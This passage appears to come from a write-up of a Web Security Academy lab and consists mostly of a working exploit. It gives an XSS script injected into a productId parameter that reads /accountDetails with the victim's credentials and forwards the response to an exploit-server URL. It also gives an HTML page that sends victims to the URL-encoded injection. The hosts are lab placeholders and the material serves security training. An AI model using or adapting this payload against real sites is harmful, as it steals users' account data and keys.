 With the following being URL encoded and put after the `productId=` parameter - where XSS is present:

```html
<script>
    const request = new XMLHttpRequest()

    request.open("get", "https://ID.web-security-academy.net/accountDetails", true)

    request.onload= ()=>{
        window.location = "https://exploit-ID.exploit-server.net/exploit?key=" + request.responseText
    }

    request.withCredentials = true
    request.send()
</script>
```

After URL encoding and combining with the main payload:

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Document</title>
    </head>
    <body>
        <h1>Hello</h1>

        <script>
            window.location ="http://stock.ID.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%63%6f%6e%73%74%20%72%65%71%75%65%73%74%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%0a%0a%20%20%20%20%72%65%71%75%65%73%74%2e%6f%70%65%6e%28%22%67%65%74%22%2c%20%22%68%74%74%70%73%3a%2f%2f%49%44%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%20%74%72%75%65%29%0a%0a%20%20%20%20%72%65%71%75%65%73%74%2e%6f%6e%6c%6f%61%64%3d%20%28%29%3d%3e%7b%0a%20%20%20%20%20%20%20%20%77%69%6e%64%6f%77%2e%6c%6f%63%61%74%69%6f%6e%20%3d%20%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%49%44%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6b%65%79%3d%22%20%2b%20%72%65%71%75%65%73%74%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%0a%20%20%20%20%7d%0a%0a%20%20%20%20%72%65%71%75%65%73%74%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%0a%20%20%20%20%72%65%71%75%65%73%74%2e%73%65%6e%64%28%29%0a%3c%2f%73%63%72%69%70%74%3e&storeId=3"
        </script>
    </body>
</html>
```

